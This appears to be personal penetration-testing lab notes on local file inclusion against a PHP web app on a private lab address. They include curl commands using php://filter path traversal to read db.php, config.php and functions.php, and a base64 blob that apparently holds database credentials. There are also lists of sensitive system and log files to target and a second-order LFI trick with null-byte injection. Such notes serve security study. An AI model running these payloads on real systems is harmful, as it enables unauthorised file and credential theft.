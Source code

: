 	- `../../../../../../../var/www/html/db.php.txt
	- `../../../../../../../var/www/html/db.php.bak`
	- `../../../../../../../var/www/html/db.php.swp`
- PHP filter with `php://filter/convert.base64-encode/resource=../../../../../../../var/www/html/db.php`
```
curl "http://192.168.221.58/image.php?img=php://filter/convert.base64-encode/resource=../../../../../../../var/www/html/db.php"
```
- output will show base64:
![[Pasted image 20250603115345.png]]
```
echo "PD9waHAKZGVmaW5lKCdEQkhPU1QnLCAnMTI3LjAuMC4xJyk7CmRlZmluZSgnREJVU0VSJywgJ3Jvb3QnKTsKZGVmaW5lKCdEQlBBU1MnLCAnTWFsYXByb3BEb2ZmVXRpbGl6ZTEzMzcnKTsKZGVmaW5lKCdEQk5BTUUnLCAnU2ltcGxlUEhQR2FsJyk7Cj8+Cg==" | base64 -d
```
![[Pasted image 20250603115432.png]]
- other locations to check:
```
curl "http://192.168.221.58/image.php?img=php://filter/convert.base64-encode/resource=../../../../../../../var/www/html/functions.php"
```
```
curl "http://192.168.221.58/image.php?img=php://filter/convert.base64-encode/resource=../../../../../../../var/www/html/config.php"
```
System files:
```
/etc/passwd
/etc/shadow
/etc/hostname
/etc/hosts
/etc/mysql/my.cnf
/etc/php.ini
/etc/httpd/conf/httpd.conf
/etc/apache2/apache2.conf
```
Web app files:
```
/var/www/html/db.php
/var/www/html/config.php
/var/www/html/functions.php
/var/www/html/.env
/var/www/html/index.php
```
Log poisoning:
```
/var/log/httpd/access_log
/var/log/httpd/error_log
/var/log/apache2/access.log
/var/log/apache2/error.log
```
###### Second-Order LFI attack
- if you also have ability to create a user account & access a URL subdirectory that contains your username, try naming the account "../../../etc/passwd" then accessing that URL
	- might need to use null bye injection or other bypass to end string if subdirectory of URL isn't end of URL
		- ex: /profile/$username/avatar.png
			- try: /profile/../../../etc/passwd%00

---